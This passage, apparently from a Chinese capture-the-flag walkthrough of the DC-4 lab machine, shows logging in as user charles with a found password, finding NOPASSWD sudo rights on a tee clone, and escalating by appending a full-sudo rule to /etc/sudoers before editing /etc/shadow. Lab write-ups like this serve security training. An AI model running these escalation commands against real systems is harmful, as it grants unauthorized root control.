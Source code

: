         See ya,
        Charles
        ```
        
        告诉我们`Charles`的密码是`^xHhA&hvim0y`
        
7. 登录`charles`用户，查看权限
    
    ```python
    charles@dc-4:~$ sudo -l
    Matching Defaults entries for charles on dc-4:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
    
    User charles may run the following commands on dc-4:
        (root) NOPASSWD: /usr/bin/teehee
    ```
    
    存在有sudo权限的`teehee` 命令
    
    ```python
    charles@dc-4:/usr/bin$ sudo teehee --help
    Usage: teehee [OPTION]... [FILE]...
    Copy standard input to each FILE, and also to standard output.
    
      -a, --append              append to the given FILEs, do not overwrite
      -i, --ignore-interrupts   ignore interrupt signals
      -p                        diagnose errors writing to non pipes
          --output-error[=MODE]   set behavior on write error.  See MODE below
          --help     display this help and exit
          --version  output version information and exit
    
    MODE determines behavior with write errors on the outputs:
      'warn'         diagnose errors writing to any output
      'warn-nopipe'  diagnose errors writing to any output not a pipe
      'exit'         exit on error writing to any output
      'exit-nopipe'  exit on error writing to any output not a pipe
    The default MODE for the -p option is 'warn-nopipe'.
    The default operation when --output-error is not specified, is to
    exit immediately on error writing to a pipe, and diagnose errors
    writing to non pipe outputs.
    
    GNU coreutils online help: <http://www.gnu.org/software/coreutils/>
    Full documentation at: <http://www.gnu.org/software/coreutils/tee>
    or available locally via: info '(coreutils) tee invocation'
    ```
    
8. `teehee`提权，直接给用户`sudo all nopasswd`权限
    
    ```python
    echo "charles ALL=(ALL) NOPASSWD: ALL" | sudo teehee -a /etc/sudoers
    ```
    
    然后修改`shadow`文件
    
    ```python
    sudo nano /etc/shadow
    ```
    